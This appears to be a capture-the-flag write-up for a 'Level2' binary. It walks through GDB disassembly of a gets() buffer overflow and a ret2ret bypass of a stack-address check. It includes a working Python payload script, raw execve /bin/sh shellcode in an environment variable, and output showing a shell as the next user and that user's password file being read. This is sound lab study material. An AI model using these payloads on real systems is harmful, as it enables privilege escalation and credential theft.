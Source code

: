 # Level2

First step - testing the program
```
$ ./level2
a
a
```
The program print the input

Start it in GDB
```
(gdb)$ disas main
Dump of assembler code for function main:
   0x0804853f <+0>:		push   ebp
   0x08048540 <+1>:		mov    ebp,esp
   0x08048542 <+3>:		and    esp,0xfffffff0
   0x08048545 <+6>:		call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```
The main call a function `p`

```
(gdb)$ disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:		push   ebp
   0x080484d5 <+1>:		mov    ebp,esp
   0x080484d7 <+3>:		sub    esp,0x68
   0x080484da <+6>:		mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

---

We have an exploit to `get()` with bufferoverflow.

But this time, there is stack protection :
```
0x080484fb <+39>:	and    eax,0xb0000000
0x08048500 <+44>:	cmp    eax,0xb0000000
0x08048505 <+49>:	jne    0x8048527 <p+83>
```
We can't inject shellcode in the buffer or environment variable.


So, we will use Ret2Ret methode for overwrite EIP to another ret instruction, here, in the main. And put shellcode in new environment variable.

```
#!/usr/bin/python

import struct

ENV = struct.pack("I", 0xbfffff37)      # environment variable address

RET = struct.pack("I", 0x0804854b)      # main ret address

print "C" * 80 + RET + ENV              # 80 lenght offset for overwrite EIP

```

Let's go ! 
```
$> ./ret2ret.py > payload

$> cat payload - | env -i EXPLOIT=$(python -c 'print("\x90" * 100 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') $PWD/level2
CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCKCCCCCCCCCCCCK7���
$> whoami
level3
$> cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
